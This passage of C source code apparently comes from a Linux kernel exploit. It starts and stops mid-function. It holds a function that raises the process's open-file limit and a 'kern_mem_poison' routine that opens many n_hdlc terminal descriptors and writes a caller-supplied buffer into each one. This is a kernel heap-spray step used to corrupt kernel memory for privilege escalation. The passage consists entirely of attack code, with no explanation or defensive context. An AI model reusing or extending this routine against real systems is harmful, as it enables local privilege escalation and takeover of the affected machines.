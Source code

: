 ```c
		close(fd);
		return -1;
	}

	return fd;
}

static int max_open_files(struct rlimit *rlim)
{
	int err;
	memset(rlim, 0, sizeof(*rlim));
	err = getrlimit(RLIMIT_NOFILE, rlim);
	if (err == -1) {
		return -1;
	}
	rlim->rlim_cur = rlim->rlim_max & (~0xff);
	err = setrlimit(RLIMIT_NOFILE, rlim);
	if (err == -1) {
		return -1;
	}
	return 0;
}

static int kern_mem_poison(char *buf, size_t len)
{
	int err;

	if ((len < 4096) || (len > 65536)) {
		return -1;
	}

	struct rlimit rlim;
	err = max_open_files(&rlim);
	if (err == -1) {
		return -1;
	}

	int fd[rlim.rlim_cur];
	long i;
	for (i = 0; i < rlim.rlim_cur; i++) {
		if (!get_memory_avail())
			if (mem_avail < (len*2))
				break;
		fd[i] = open_n_hdlc();
		if (fd[i] == -1) {
			break;
		}

		err = write(fd[i], buf, len);
		if (err == -1) {
			break;
		}
	}

	if (i < rlim.rlim_cur)
		for (long j = i; j < rlim.rlim_cur; j++)
			fd[j] = -1;

	for (i = 0; i < rlim.rlim_cur; i++) {
		close(fd[i]);
		fd[i] = -1;
	}

```